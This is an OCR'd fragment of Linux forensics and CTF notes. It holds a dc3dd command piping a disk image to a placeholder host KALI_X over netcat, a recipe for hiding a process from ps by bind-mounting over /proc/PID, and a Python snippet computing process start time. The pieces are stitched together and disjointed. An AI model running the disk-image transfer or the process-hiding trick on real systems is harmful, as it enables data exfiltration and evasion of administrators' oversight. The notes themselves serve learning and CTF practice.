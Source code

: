 openssl

ext4magic

dc3dd:

Send disk image over the network:

dc3dd if=/dev/sda hash=sha512 | nc KALI_X 5555

11. If you are looking for a simple way how to hide your process from the process list including file descriptors, then the bind mount operation combined with symbolic link is the answer:

# ps -ef | grep PID_YOU_WANT_TO_HIDE
# mkdir -p spoof/fd
# mount -o bind spoof /proc/PID_YOU_WANT_TO_HIDE
# ln -s socket:\[283\] /proc/PID_YOU_WANT_TO_HIDE/fd/99
# ls -la /proc/PID_YOU_WANT_TO_HIDE/fd

# getconf CLK_TCK
100
Calculate the Start Time by using a Python script to convert the start time from clock ticks to real time:

# vim proc_start_time.py
import time

# Values from the example
start_time_ticks = 93205
btime = 1722590337
clk_tck = 100

# Calculate the start time in seconds since epoch
start_time_seconds = btime + (start_time_ticks / clk_tck)

# Convert to human-readable format
start_time_human = time.strftime('%Y-%m-%d %H:%M:%S', time.localtime(start_time_seconds))
print(start_time_human)

https://github.com/Shiva108/CTF-notes/blob/master/Notes%20VA/Local%20Linux%20Enumeration%20n%20Privilege%20Escalation%20Cheatsheet%20.txt